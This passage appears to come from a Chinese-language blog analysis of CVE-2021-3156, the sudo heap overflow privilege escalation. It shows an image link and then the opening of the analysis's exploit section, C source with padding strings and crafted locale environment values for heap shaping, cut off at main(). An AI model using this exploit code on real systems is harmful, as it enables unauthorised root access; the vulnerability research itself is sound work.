 ![image.png](/assets/posts/2021-04-16-CVE-2021-3156-sudo缓冲区溢出提权漏洞分析/image%2021.png)

# 六、Exploit

```c
/*gcc -o exploit exploit.c*/
#define _GNU_SOURCE 
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
#include <string.h>

#define MAX_ENV 4096
#define STACK_SIZE 4096
#define null_sz 61

/*cmnd1和cmnd2控制user_args大小为0x80*/
char *cmnd1 = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\";
char *cmnd2 = "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\\";   
char *env1 = "LC_IDENTIFICATION=C.UTF-8@AFoJUVW5oY1ECmtHm";
char *env2 = "LC_NUMERIC=C.UTF-8@AgAWEGN9ywEYeiv6UO9yjau8kA4XKHequuNEv4WKfxqJbUHkKGySLtVIMx14LxXE7pqWM0JHuXcDa9TCR7Y7sLBjI"; 
char *popshell = "X/X\\";

int main(void) {
```